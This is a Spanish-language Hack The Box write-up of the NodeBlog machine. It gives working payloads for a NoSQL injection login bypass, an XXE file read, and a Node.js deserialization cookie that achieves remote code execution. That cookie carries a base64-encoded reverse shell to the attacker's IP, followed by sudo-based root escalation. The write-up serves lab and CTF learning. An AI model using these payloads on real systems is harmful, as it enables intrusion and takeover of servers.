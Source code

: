 ```yaml
---
layout: single
title: NodeBlog - Hack The Box
excerpt: "Para resolver ésta máquina interceptamos la solicitud a la hora de iniciar sesión, logrando así manipular los campos & logrando consigo inyectar NoSQL malicioso para un usuario válido, logrando así burlar el sistema de inicio de sesión, para posterior a ello abusar de subidas de archivo en formato .xml convirtiéndolo en XXE, logrando ver el código fuente de la página web, para aprovecharnos de éste. Hacemos una cookie serialiada maliciosa para llevar a cabo un RCE y entablarnos una Reverse Shell, para posterior a ello enumerar credenciales en texto claro de la DB & aprovecharnos de los SUDOERS."
date: 2023-11-20
classes: wide
header:
  teaser: /assets/images/htb-writeup-nodeblog/nodeblog_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - NoSQL Injection (Authentication Bypass)
  - XXE File Read
  - NodeJS Deserialization Attack (IIFE Abusing)
  - Mongo Database Enumeration
  - abusing sudoers
---
```


Para resolver ésta máquina interceptamos la solicitud a la hora de iniciar sesión, logrando así manipular los campos & logrando consigo inyectar NoSQL malicioso para un usuario válido, logrando así burlar el sistema de inicio de sesión, para posterior a ello abusar de subidas de archivo en formato .xml convirtiéndolo en XXE, logrando ver el código fuente de la página web, para aprovecharnos de éste. Hacemos una cookie serialiada maliciosa para llevar a cabo un RCE y entablarnos una Reverse Shell, para posterior a ello enumerar credenciales en texto claro de la DB & aprovecharnos de los SUDOERS.


# PortScan
__________
```
# Nmap 7.93 scan initiated Mon Nov 20 09:49:30 2023 as: nmap -sCV -p22,5000 -oN targeted 10.10.11.139
Nmap scan report for 10.10.11.139
Host is up (0.063s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 20 09:49:45 2023 -- 1 IP address (1 host up) scanned in 14.89 seconds
```

# Web Site
_______________
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120112841.png)

Realicé un **FUZZING** web para posibles directorios existentes en la máquina víctima, pero no encontré nada interesante, probé ingresando usuarios default típicos, y ví qué decía cuando un usuario era válido y cuando no, descubriendo así que el usuario "**admin**" existe, pero ninguna contraseña típica funcionó, por lo qué opté por interceptar esto con el Proxy **BurpSuite**.

# Proxy BurpSuite
___

Aquí empecé a probar distintas inyecciones de **DB's** , entre ellas NoSQL's, descubriendo qué era vulnerable a inyecciones **NoSQL**, pero con un body en formato Json y no DATA.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120113655.png)

Como conocemos un usuario **válido**, usamos la operativa "**not equal**" para hacer un ByPass de contraseña, logrando así entrar como Admin.

En resumen,  al usuario "**admin**" ser válido, y la contraseña no ser igual a "**test**" **ByPassareamos** ésto porque verdaderamente la contraseña **NO ES IGUAL** a "test." logrando así iniciar sesión y seteandonos una cookie.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120115202.png)
Qué por lo que parece es una cookie de sesión URL **encodeada**, y sí vamos a la web nos veríamos logueados.

![](Pasted image 20231120115651.png)


Vemos qué podemos subir archivo, así que intentamos subir un archivo cualquiera, por ejemplo un .txt a ver qué pasa...
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120120049.png)

Debemos subir un archivo en formato **.XML**, así qué se me ocurre ver si podemos tratar de llevar a cabo un **XXE** con una entidad maliciosa para leer el "**/etc/passwd**".

**PoC .xml:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 
 <post>
   <title>Example Post</title>
   <description>Example Description</description>
   <markdown>&xxe;</markdown>
 </post>
```

Una vez subido, vemos qué logramos leer el "**passwd**" gracias al **XXE**.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120120634.png)

Y también descubrimos que el usuario "**admin**" es un usuario válido del sistema.

Traté de leer sí existía la **"id_rsa"** de SSH, pero no encontré nada, pero curiosamente al enviar un cuerpo corrompido al servidor como solicitud de logueo, nos devolvería rutas existente como error.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120121359.png)

Nos reportaría rutas, lo qué me da a entender que son rutas donde está alojado el servidor, por ende veo varios **"/opt/blog"**, así que modifico mi **XXE** para leer del "**/opt/blog/server.js**" logrando así ver el código fuente.

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120121703.png)

Nos chiva el código fuente qué por detrás **deserializa** la cookie **serializada**, para interpretarla, por lo qué se me ocurre de primer poner una cookie serializada maliciosa, qué a la hora de deserializarse por detrás haga lo qué me interese, investigando encontré qué podemos llevar a cabo en estas situaciones un **IIFE**.

**IIFE:** no es más qué mediante dos paréntesis colocado de forma específica en el código, ejecute ese comando colocado en los paréntesis antes de deserializar en éste caso la cookie.

[((Artículo sobre IIFE y como podemos explotar deserialización y serialización en Node JS))](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

**PoC** Payload para llevar a cabo el "**RCE**" mediante el **"IFFE"**:
```js
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('cmd',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Como vimos al principio, la cookie está **urlencodeada**, así qué este payload lo urlencodeamos para ponerlo como cookie en nuestro navegador, y a continuación estaré probando si logramos llevar a cabo la **RCE** seteando una cookie qué intente obtener un recurso desde la máquina víctima a mi máquina con "wget".
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120124717.png)

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120124740.png)

Por ende, estamos llevando a cabo el **RCE** éxitosamente, así que procederé a entablarme una **Reverse Shell** con el payload en base64.
```bash
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNS80NDMgMD4mMQo= | base64 -d | bash',function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

Convertirmos en **URLENCODE**, seteamos eso como cookie de sesión, y al recargar obtendríamos nuestra **Reverse Shell**.
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125050.png)

Ya quedaría darle Tratamiento a la TTY, que sino sabes como te recomiendo [((LEER ÉSTE POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios
___
Sí vemos los puertos abiertos, veremos puertos qué de manera externa no teníamos acceso.
![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125343.png)

Y sí indagamos en internet, veríamos que este puerto suele ser el de **MongoDB** por defecto, así que intentamos entrar...
```bash
mongo
```

Logrando así conectarnos con la DB, ahora deberíamos listar DB's que nos interesen con contenido de sus tablas, columnas...

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125522.png)

Encontrando así las credenciales del usuario actual, para posterior ver sus permisos SUDOERS.

```bash
sudo -l
```

![](/assets/images/htb-writeup-nodeblog/Pasted image 20231120125604.png)

Viendo que podemos ejecutar lo que sea, es decir podemos convertirnos en Root con:
```bash
sudo su
```

![[/assets/images/htb-writeup-nodeblog/Pasted image 20231120125651.png]]
